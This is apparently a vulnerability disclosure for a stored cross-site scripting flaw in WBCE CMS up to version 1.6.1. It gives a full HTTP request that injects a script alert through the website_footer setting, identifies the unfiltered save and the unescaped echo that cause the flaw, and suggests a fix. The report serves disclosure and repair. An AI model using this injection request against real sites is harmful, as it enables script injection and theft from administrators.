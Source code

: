 Vulnerability type : Cross Site Scripting
Vendor of the product(s) : https://github.com/WBCE/WBCE_CMS
Affected Product Code Base : WBCE_CMS - <=1.6.1
Affected Component : /admin/settings, /templates/wbcezon/index.php
Attack Type : Remote
Impact Escalation of Privileges : true
Impact Information Disclosure : true
Attack Vectors : Users can insert JavaScript statements by controlling website_footer

Stored Cross-Site Scripting

![image-20231014164109765](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014164109765.png)

request packet

```
POST /admin/settings/save.php HTTP/1.1
Host: localhost
Content-Length: 744
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/admin/settings/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; phpsessid-3877-sid=29rsln8q1kfe418al8e5i6i7p5; stElem___stickySidebarElement=%5Bid%3A0%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A1%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A2%5D%5Bvalue%3Aclosedsidebar%5D%23%5Bid%3A3%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A4%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A5%5D%5Bvalue%3Aclosedsidebar%5D%23%5Bid%3A6%5D%5Bvalue%3AnoClass%5D%23; WBCELastConnectJS=1697291720
Connection: close

advanced=no&formtoken=2efc8cf5-8b6dcd39a0b4833bc56072d9bf66c61b8f3c70e7&website_title=aaa&website_description=bbb&website_keywords=ccc&website_header=&website_footer=%3Cscript%3Ealert(345)%3c%2fscript%3e&page_trash=inline&home_folders=true&intro_page=false&frontend_login=false&frontend_signup=4&submit=&default_language=EN&default_timezone=13&default_date_format=d.m.Y&default_time_format=H%3Ai&default_template=wbcezon&default_theme=wbce_flat_theme&search=public&search_template=&page_spacer=-&app_name=phpsessid-3877&sec_anchor=wbce_&server_email=admin%40qq.coms&wbmailer_default_sendername=WBCE+CMS+Mailer&wbmailer_routine=phpmail&wbmailer_smtp_host=&wbmailer_smtp_port=&wbmailer_smtp_secure=&wbmailer_smtp_username=&wbmailer_smtp_password=
```



![image-20231014233644498](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014233644498.png)

This vulnerability can allow any user with settings privileges to obtain other user information, such as administrators with higher privileges

In /admin/settings/save.php#211

Insert HTML characters directly into the database without filtering

![image-20231014234154490](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014234154490.png)

Directly used echo in/templates/wbcezon/index.php

![image-20231014234544441](https://alious-1314078558.cos.ap-beijing.myqcloud.com/image-20231014234544441.png)



Repair suggestions:

add Strings::htmlentities
